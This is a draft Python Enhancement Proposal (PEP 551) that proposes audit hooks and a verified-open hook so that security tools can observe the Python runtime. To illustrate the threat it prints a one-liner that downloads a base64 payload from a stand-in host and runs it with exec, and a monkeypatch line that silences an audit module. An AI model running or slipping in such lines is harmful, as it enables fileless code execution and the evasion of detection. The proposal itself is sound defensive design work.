 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Discussions-To: <security-sig@python.org>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig)

Abstract
========

This PEP describes additions to the Python API and specific behaviors for the
CPython implementation that make actions taken by the Python runtime visible to
security and auditing tools. The goals in order of increasing importance are to
prevent malicious use of Python, to detect and report on malicious use, and most
importantly to detect attempts to bypass detection. Most of the responsibility
for implementation is required from users, who must customize and build Python
for their own environment.

We propose two small sets of public APIs to enable users to reliably build their
copy of Python without having to modify the core runtime, protecting future
maintainability. We also discuss recommendations for users to help them develop
and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote or
elevated code execution. However, in our modern connected world, the more
dangerous vulnerabilities are those that enable advanced persistent threats
(APTs). APTs are achieved when an attacker is able to penetrate a network,
establish their software on one or more machines, and over time extract data or
intelligence. Some APTs may make themselves known by maliciously damaging data
(e.g., `WannaCrypt <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use a
combination of traditional vulnerabilities, social engineering, phishing (or
spear-phishing), thorough network analysis, and an understanding of
misconfigured environments to establish themselves and do their work.

The first infected machines may not be the final target and may not require
special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to spread
to production machines through normal deployment channels. It is common for APTs
to persist on as many machines as possible, with sheer weight of presence making
them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their tracks, the
biggest barrier to detection is a lack of insight. System administrators with
large networks rely on distributed logs to understand what their machines are
doing, but logs are often filtered to show only error conditions. APTs that are
attempting to avoid detection will rarely generate errors or abnormal events.
Reviewing normal operation logs involves a significant amount of effort, though
work is underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that are
already installed on the target machines, since log messages from these tools
are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the existence
of APTs or methods and mitigations that do not apply to this PEP. For further
information about the field, we recommend reading or watching the resources
listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its prevalence on
server and developer machines, its ability to execute arbitrary code provided as
data (as opposed to native binaries), and its complete lack of internal
auditing. This allows attackers to download, decrypt, and execute malicious code
with a single command::

    python -c "import urllib.request, base64; exec(base64.b64decode(urllib.request.urlopen('http://my-exploit/py.b64')).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being written to
disk (base64 is often sufficient to bypass these checks). It also bypasses
protections such as file access control lists or permissions (no file access
occurs), approved application lists (assuming Python has been approved for other
uses), and automated auditing or logging (assuming Python is allowed to access
the internet or access another machine on the local network from which to obtain
its payload).

General consensus among the security community is that totally preventing
attacks is infeasible and defenders should assume that they will often detect
attacks only after they have succeeded. This is known as the "assume breach"
mindset. [1]_ In this scenario, protections such as sandboxing and input
validation have already failed, and the important task is detection, tracking,
and eventual removal of the malicious code. To this end, the primary feature
required from Python is security transparency: the ability to see what
operations the Python runtime is performing that may indicate anomalous or
malicious use. Preventing such use is valuable, but secondary to the need to
know that it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which events
within a scripting engine are worth logging. However, given the value of many
logs events are not recognized until after an attack is detected, it is
important to capture as much as possible and filter views rather than filtering
at the source (see the No Easy Breach video from `Further Reading`_). Events
that are always of interest include attempts to bypass auditing, attempts to
load and execute code that is not correctly signed or access-controlled, use of
uncommon operating system functionality such as debugging or inter-process
inspection tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in order to
detect abnormal or malicious usage. Currently, the Python runtime does not
provide any ability to do this, which (anecdotally) has led to organizations
switching to other languages. The aim of this PEP is to enable system
administrators to deploy a security transparent copy of Python that can
integrate with their existing auditing and protection systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on production
machines is highly appealing to system administrators and will make Python a
more trustworthy dependency for application developers.


Overview of Changes
===================

True security transparency is not fully achievable by Python in isolation. The
runtime can audit as many events as it likes, but unless the logs are reviewed
and analyzed there is no value. Python may impose restrictions in the name of
security, but usability may suffer. Different platforms and environments will
require different implementations of certain security features, and
organizations with the resources to fully customize their runtime should be
encouraged to do so.

The aim of these changes is to enable system administrators to integrate Python
into their existing security systems, without dictating what those systems look
like or how they should behave. We propose two API changes to enable this: an
Audit Hook and Verified Open Hook. Both are not set by default, and both require
modifications to the entry point binary to enable any functionality. For the
purposes of validation and example, we propose a new ``spython``/``spython.exe``
entry point program that enables some basic functionality using these hooks.
**However, security-conscious organizations are expected to create their own
entry points to meet their own needs.**

Audit Hook
----------

In order to achieve security transparency, an API is required to raise messages
from within certain operations. These operations are typically deep within the
Python runtime or standard library, such as dynamic code compilation, module
imports, DNS resolution, or use of certain modules such as ``ctypes``.

The new APIs required for audit hooks are::

   # Add an auditing hook
   sys.addaudithook(hook: Callable[str, tuple]) -> None
   int PySys_AddAuditHook(int (*hook)(const char *event, PyObject *args));

   # Raise an event with all auditing hooks
   sys.audit(str, *args) -> None
   int PySys_Audit(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearAuditHooks(void);

Hooks are added by calling ``PySys_AddAuditHook()`` from C at any time,
including before ``Py_Initialize()``, or by calling ``sys.addaudithook()`` from
Python code. Hooks are never removed or replaced, and existing hooks have an
opportunity to refuse to allow new hooks to be added (adding an audit hook is
audited, and so preexisting hooks can raise an exception to block the new
addition).

When events of interest are occurring, code can either call ``PySys_Audit()``
from C (while the GIL is held) or ``sys.audit()``. The string argument is the
name of the event, and the tuple contains arguments. A given event name should
have a fixed schema for arguments, and both arguments are considered a public
API (for a given x.y version of Python), and thus should only change between
feature releases with updated documentation.

When an event is audited, each hook is called in the order it was added with the
event name and tuple. If any hook returns with an exception set, later hooks are
ignored and *in general* the Python runtime should terminate. This is
intentional to allow hook implementations to decide how to respond to any
particular event. The typical responses will be to log the event, abort the
operation with an exception, or to immediately terminate the process with an
operating system exit call.

When an event is audited but no hooks have been set, the ``audit()`` function
should include minimal overhead. Ideally, each argument is a reference to
existing data rather than a value calculated just for the auditing call.

As hooks may be Python objects, they need to be freed during ``Py_Finalize()``.
To do this, we add an internal API ``_Py_ClearAuditHooks()`` that releases any
``PyObject*`` hooks that are held, as well as any heap memory used. This is an
internal function with no public export, but it triggers an event for all audit
hooks to ensure that unexpected calls are logged.

See `Audit Hook Locations`_ for proposed audit hook points and schemas, and the
`Recommendations`_ section for discussion on appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files that can be
executed and those that can not. For example, this may be an execute bit in the
permissions field, or a verified hash of the file contents to detect potential
code tampering. These are an important security mechanism for preventing
execution of data or code that is not approved for a given environment.
Currently, Python has no way to integrate with these when launching scripts or
importing modules.

The new public API for the verified open hook is::

   # Set the handler
   int Py_SetOpenForExecuteHandler(PyObject *(*handler)(const char *narrow, const wchar_t *wide))

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for raw,
binary access - any more restrictive behaviour requires the use of a custom
handler. (Aside: since ``importlib`` requires access to this function before the
``os`` module has been imported, it will be available on the ``nt``/``posix``
modules, but the intent is that other users will access it through the ``os``
module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()`` from C
at any time, including before ``Py_Initialize()``. When ``open_for_exec()`` is
called with a handler set, the handler will be passed the processed narrow or
wide path, depending on platform, and its return value will be returned
directly. The returned object should be an open file-like object that supports
reading raw bytes. This is explicitly intended to allow a ``BytesIO`` instance
if the open handler has already had to read the file into memory in order to
perform whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function on
CPython without triggering themselves.

If the handler determines that the file is not suitable for execution, it should
raise an exception of its choice, as well as raising any other auditing events
or notifications.

All import and execution functionality involving code from a file will be
changed to use ``open_for_exec()`` unconditionally. It is important to note that
calls to ``compile()``, ``exec()`` and ``eval()`` do not go through this
function - an audit hook that includes the code from these calls will be added
and is the best opportunity to validate code that is read from the file. Given
the current decoupling between import and execution in Python, most imported
code will go through both ``open_for_exec()`` and the log hook for ``compile``,
and so care should be taken to avoid repeating verification steps.

.. note::
   The use of ``open_for_exec()`` by ``importlib`` is a valuable first defence,
   but should not be relied upon to prevent misuse. In particular, it is easy
   to monkeypatch ``importlib`` in order to bypass the call. Auditing hooks are
   the primary way to achieve security transparency, and are essential for
   detecting 
   

API Availability
----------------

While all the functions added here are considered public and stable API, the
behavior of the functions is implementation specific. The descriptions here
refer to the CPython implementation, and while other implementations should
provide the functions, there is no requirement that they behave the same.

For example, ``sys.addaudithook()`` and ``sys.audit()`` should exist but may do
nothing. This allows code to make calls to ``sys.audit()`` without having to
test for existence, but it should not assume that its call will have any effect.
(Including existence tests in security-critical code allows another vector to
bypass auditing, so it is preferable that the function always exist.)

``os.open_for_exec(pathlike)`` should at a minimum always return
``_io.open(pathlike, 'rb')``. Code using the function should make no further
assumptions about what may occur, and implementations other than CPython are not
required to let developers override the behavior of this function with a hook.


Audit Hook Locations
====================

Calls to ``sys.audit()`` or ``PySys_Audit()`` will be added to the following
operations with the schema in Table 1. Unless otherwise specified, the ability
for audit hooks to abort any listed operation should be considered part of the
rationale for including the hook.

.. csv-table:: Table 1: Audit Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddAuditHook``, ``sys.addaudithook``, "", "Detect when new audit
   hooks are being added."
   ``_PySys_ClearAuditHooks``, ``sys._clearaudithooks``, "", "Notifies hooks
   they are being cleaned up, mainly in case the event is triggered
   unexpectedly. This event cannot be aborted."
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "Detects
   any attempt to set the ``open_for_execute`` handler."
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``, ``PyAST_obj2mod``
   ", ``compile``, "``(code, filename_or_none)``", "Detect dynamic code
   compilation, where ``code`` could be a string or AST. Note that this will be
   called for regular imports of source code, including those that were opened
   with ``open_for_exec``."
   "``exec``, ``eval``, ``run_mod``", ``exec``, "``(code_object,)``", "Detect
   dynamic execution of code objects. This only occurs for explicit calls, and
   is not raised for normal function invocation."
   ``import``, ``import``, "``(module, filename, sys.path, sys.meta_path,
   sys.path_hooks)``", "Detect when modules are imported. This is raised before
   the module name is resolved to a file. All arguments other than the module
   name may be ``None`` if they are not used or available."
   ``code_new``, ``code.__new__``, "``(bytecode, filename, name)``", "Detect
   dynamic creation of code objects. This only occurs for direct instantiation,
   and is not raised for normal compilation."
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used."
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "Collect
   information about specific symbols retrieved from native modules."
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect when code
   is accessing arbitrary memory using ``ctypes``"
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing the id of
   objects, which in CPython reveals information about memory layout."
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect when
   code is accessing frames directly"
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when code is
   accessing frames directly"
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.setprofile`` eventually calls this function, so the event
   will be audited for each thread."
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.settrace`` eventually calls this function, so the event
   will be audited for each thread."
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "", "Detect
   changes to the coroutine wrapper."
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "``(new_limit,)``", "
   Detect changes to the recursion limit."
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "``(interval_us,)``
   ", "Detect changes to the switching interval."
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.getaddrinfo``, ``socket.getnameinfo``, ``socket.sendmsg``,
   ``socket.sendto``", ``socket.address``, "``(address,)``", "Detect access to
   network resources. The address is unmodified from the original call."
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "Detect
   creation of sockets. The arguments will be int values."
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts to
   retrieve the current host name."
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "Detect
   attempts to change the current host name. The name argument is passed as a
   bytes object."
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``", "
   ``socket.gethostbyname``", "``(name,)``", "Detect host name resolution. The
   name argument is a str or bytes object."
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "``(address,)``", "Detect
   host resolution. The address argument is a str or bytes object."
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name, protocol)``", "
   Detect service resolution. The arguments are str objects."
   ``socket.getservbyport``, ``socket.getservbyport``, "``(port, protocol)``", "
   Detect service resolution. The port argument is an int and protocol is a
   str."
   ","
   ``type.__setattr__``","``(type, attr_name, value)``","Detect monkey patching
   of types. This event is only raised when the object is an instance of
   ``type``."
   "``_PyObject_GenericSetAttr``, ``check_set_special_type_attr``,
   ``object_set_class``",``object.__setattr__``,"``(object, attr, value)``","
   Detect monkey patching of objects. This event is raised for the ``__class__``
   attribute and any attribute on ``type`` objects."
   ``_PyObject_GenericSetAttr``,``object.__delattr__``,"``(object, attr)``","
   Detect deletion of object attributes. This event is raised for any attribute
   on ``type`` objects."
   ``Unpickler.find_class``,``pickle.find_class``,"``(module_name,
   global_name)``","Detect imports and global name lookup when unpickling."

TODO - more hooks in ``_socket``, ``_ssl``, others?
* code objects
* function objects

SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on Windows and
``spythonX.Y`` on other platforms. This entry point is intended primarily as an
example, as we expect most users of this functionality to implement their own
entry point and hooks (see `Recommendations`_). It will also be used for tests.

Source builds will build ``spython`` by default, but distributions should not
include it except as a test binary. The python.org managed binary distributions
will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the first
argument, and does not allow any options. This prevents arbitrary code execution
from in-memory data or non-script files (such as pickles, which can be executed
using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment variables)
and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it will be
used to initialize ``sys.path`` following the rules currently described `for
Windows <https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a ``-i``
option with no other arguments to enter into interactive mode, with audit
messages being written to standard error rather than a file. This is intended
for testing and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set an audit hook that writes events to
a local file. By default, this file is the full path of the process with a
``.log`` suffix, but may be overridden with the ``SPYTHONLOG`` environment
variable (despite such overrides being explicitly discouraged in
`Recommendations`_).

The audit hook will also abort all ``sys.addaudithook`` events, preventing any
other hooks from being added.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute hook that
validates all files opened with ``os.open_for_exec``. This implementation will
require all files to have a ``.py`` suffix (thereby blocking the use of cached
bytecode), and will raise a custom audit event ``spython.open_for_exec``
containing ``(filename, True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any other
process from opening it with write access, which allows the hook to perform
additional validation on the contents with confidence that it will not be
modified between the check and use. Compilation will later trigger a ``compile``
event, so there is no need to read the contents now for AMSI, but other
validation mechanisms such as DeviceGuard [4]_ should be performed here.

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events that use
the default implementation. Overrides will not raise audit events unless
explicitly added, and so they will continue to be allowed.

Performance Impact
==================

**TODO**

Full impact analysis still requires investigation. Preliminary testing shows
that calling ``sys.audit`` with no hooks added does not significantly affect
any existing benchmarks, though targeted microbenchmarks can observe an impact.

Performance impact using ``spython`` or with hooks added are not of interest
here, since this is considered opt-in functionality.


Recommendations
===============

Specific recommendations are difficult to make, as the ideal configuration for
any environment will depend on the user's ability to manage, monitor, and
respond to activity on their own network. However, many of the proposals here do
not appear to be of value without deeper illustration. This section provides
recommendations using the terms **should** (or **should not**), indicating that
we consider it dangerous to ignore the advice, and **may**, indicating that for
the advice ought to be considered for high value systems. The term **sysadmins**
refers to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the responsible
people.

Sysadmins **should** build their own entry point, likely starting from the
``spython`` source, and directly interface with the security systems available
in their environment. The more tightly integrated, the less likely a
vulnerability will be found allowing an attacker to bypass those systems. In
particular, the entry point **should not** obtain any settings from the current
environment, such as environment variables, unless those settings are otherwise
protected from modification.

Audit messages **should not** be written to a local file. The ``spython`` entry
point does this for example and testing purposes. On production machines, tools
such as ETW [7]_ or auditd [12]_ that are intended for this purpose should be
used.

The default ``python`` entry point **should not** be deployed to production
machines, but could be given to developers to use and test Python on
non-production machines. Sysadmins **may** consider deploying a less restrictive
version of their entry point to developer machines, since any system connected
to your network is a potential target. Sysadmins **may** deploy their own entry
point as ``python`` to obscure the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available platform
functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures for every
file in a Python deployment, ideally verified using a private certificate. For
example, Windows supports embedding signatures in executable files and using
catalogs for others, and can use DeviceGuard [4]_ to validate signatures either
automatically or using an ``open_for_exec`` hook.

Sysadmins **should** log as many audited events as possible, and **should** copy
logs off of local machines frequently. Even if logs are not being constantly
monitored for suspicious activity, once an attack is detected it is too late to
enable auditing. Audit hooks **should not** attempt to preemptively filter
events, as even benign events are useful when analyzing the progress of
an attack. (Watch the "No Easy Breach" video under `Further Reading`_ for a
deeper look at this side of things.)

Most actions **should not** be aborted if they could ever occur during normal
use or if preventing them will encourage attackers to work around them. As
described earlier, awareness is a higher priority than prevention. Sysadmins
**may** audit their Python code and abort operations that are known to never be
used deliberately.

Audit hooks **should** write events to logs before attempting to abort. As
discussed earlier, it is more important to record malicious actions than to
prevent them.

Sysadmins **should** identify correlations between events, as a change to
correlated events may indicate misuse. For example, module imports will
typically trigger the ``import`` auditing event, followed by an
``open_for_exec`` call and usually a ``compile`` event. Attempts to bypass
auditing will often suppress some but not all of these events. So if the log
contains ``import`` events but not ``compile`` events, investigation may be
necessary.

The first audit hook **should** be set in C code before ``Py_Initialize`` is
called, and that hook **should** unconditionally abort the ``sys.addloghook``
event. The Python interface is primarily intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry point
**may** add an audit hook that aborts the ``sys.addloghook`` event but otherwise
does nothing.

On production machines, a non-validating ``open_for_exec`` hook **may** be set
in C code before ``Py_Initialize`` is called. This prevents later code from
overriding the hook, however, logging the ``setopenforexecutehandler`` event is
useful since no code should ever need to call it. Using at least the sample
``open_for_exec`` hook implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_exec`` may be easily bypassed with
monkeypatching, an audit hook **should** be used to detect attribute changes on
type objects.

[TODO: more good advice; less bad advice]

Rejected Ideas
==============

Separate module for audit hooks
-------------------------------

The proposal is to add a new module for audit hooks, hypothetically ``audit``.
This would separate the API and implementation from the ``sys`` module, and
allow naming the C functions ``PyAudit_AddHook`` and ``PyAudit_Audit`` rather
than the current variations.

Any such module would need to be a built-in module that is guaranteed to always
be present. The nature of these hooks is that they must be callable without
condition, as any conditional imports or calls provide more opportunities to
intercept and suppress or modify events.

Given its nature as one of the most core modules, the ``sys`` module is somewhat
protected against module shadowing attacks. Replacing ``sys`` with a
sufficiently functional module that the application can still run is a much more
complicated task than replacing a module with only one function of interest. An
attacker that has the ability to shadow the ``sys`` module is already capable of
running arbitrary code from files, whereas an ``audit`` module can be replaced
with a single statement::

    import sys; sys.modules['audit'] = type('audit', (object,), {'audit': lambda *a: None, 'addhook': lambda *a: None})

Multiple layers of protection already exist for monkey patching attacks against
either ``sys`` or ``audit``, but assignments or insertions to ``sys.modules``
are not audited.

This idea is rejected because it makes substituting ``audit`` calls throughout
all callers near trivial.

Flag in sys.flags to indicate "secure" mode
-------------------------------------------

The proposal is to add a value in ``sys.flags`` to indicate when Python is
running in a "secure" mode. This would allow applications to detect when some
features are enabled and modify their behaviour appropriately.

Currently there are no guarantees made about security by this PEP - this section
is the first time the word "secure" has been used. Security **transparency**
does not result in any changed behaviour, so there is no appropriate reason for
applications to modify their behaviour.

Both application-level APIs ``sys.audit`` and ``os.open_for_exec`` are always
present and functional, regardless of whether the regular ``python`` entry point
or some alternative entry point is used. Callers cannot determine whether any
hooks have been added (except by performing side-channel analysis), nor do they
need to. The calls should be fast enough that callers do not need to avoid them,
and the sysadmin is responsible for ensuring their added hooks are fast enough
to not affect application performance.

The argument that this is "security by obscurity" is valid, but irrelevant.
Security by obscurity is only an issue when there are no other protective
mechanisms; obscurity as the first step in avoiding attack is strongly
recommended (see `this article
<https://danielmiessler.com/study/security-by-obscurity/>`_ for discussion).

This idea is rejected because there are no appropriate reasons for an
application to change its behaviour based on whether these APIs are in use.

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the Python
runtime safer for production use, and especially to James Powell for doing much
of the initial research, analysis and implementation, Lee Holmes for invaluable
insights into the info-sec field and PowerShell's responses, and Brett Cannon
for the grounding discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be distributed
only subject to the terms and conditions set forth in the Open Publication
License, v1.0 or later (the latest version is presently available at
http://www.opencontent.org/openpub/).
